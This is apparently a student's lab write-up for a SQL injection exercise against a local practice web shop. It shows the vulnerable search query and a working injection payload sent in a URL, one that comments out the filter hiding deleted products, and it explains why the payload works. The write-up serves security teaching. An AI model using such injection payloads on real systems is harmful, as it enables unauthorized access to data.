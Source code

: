 __Why did it cause an error?__
 
In SQL, the `' '` brackets is what is used to enclose variables. By adding the `'` symbol into the search argument, there are now too many brackets in the query which causes an error. `rip` is just whatever string.
 
__Paste here the command that the SQL server attempts to execute and replace the part(s) taken from the search field with the text "SEARCHRESULT".__ 

```sql
SELECT * FROM Products WHERE ((name LIKE '%SEARCHRESULT%' OR description LIKE '%SEARCHRESULT%') AND deletedAt IS NULL) ORDER BY name
```

From Zap:

![image](https://user-images.githubusercontent.com/71127573/190476773-f72b475a-9596-4b25-8973-bf38eb7110be.png)

---

**Deleted item?**

The shop has an item that has been deleted and therefore does not show on searches. For some reason, the shop doesn't just remove the item but instead uses another way to set the item as deleted. Do an SQLi-attack that returns all the items (including the deleted one). Use your browser's developer tools to observe the response from the server.

<details><summary>Hint</summary></details>

__How are the items "deleted"?__

The items have a `deletedAt` column in the database. The SQL query excludes items which have a value set to this column, it has to be NULL for the query to include the items (`... AND deletedAt IS NULL ...`).

__How did you make the server return all the items?__

I entered the URL:

```
http://localhost:3000/rest/products/search?q=')) ORDER BY deletedAt desc;--
```

So the query parameter in the request sent is:

```
')) ORDER BY deletedAt desc--
```

__Explain shortly the logic behind your attack. Why does it work?__

By entering the URL above, the SQL query sent to the server becomes:

```sql
SELECT * FROM Products WHERE ((name LIKE '%')) ORDER BY deletedAt desc--%' OR description LIKE '%'))ORDER BY deletedAt desc--%') AND deletedAt IS NULL) ORDER BY name
```

The key part is the SQL comment `--` which cuts out the rest of the query, cutting out the part which excludes items based on the `deletedAt` value. The `))` part is needed to fix the parentheses after they get broken by commenting out the rest of the query. `LIKE '%'` includes all.
